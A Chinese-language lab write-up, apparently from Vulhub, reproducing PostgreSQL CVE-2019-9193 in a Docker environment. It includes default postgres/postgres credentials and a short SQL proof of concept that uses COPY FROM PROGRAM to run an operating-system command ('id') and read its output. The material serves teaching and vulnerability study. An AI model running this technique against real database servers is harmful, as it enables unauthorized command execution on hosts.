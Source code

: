 # PostgreSQL 高权限命令执行漏洞 CVE-2019-9193

## 漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 环境搭建

Vulhub启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

## 漏洞复现

连接数据库：

```
psql --host your-ip --username postgres
```

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![image-20220228144351955](images/202202281443076.png)

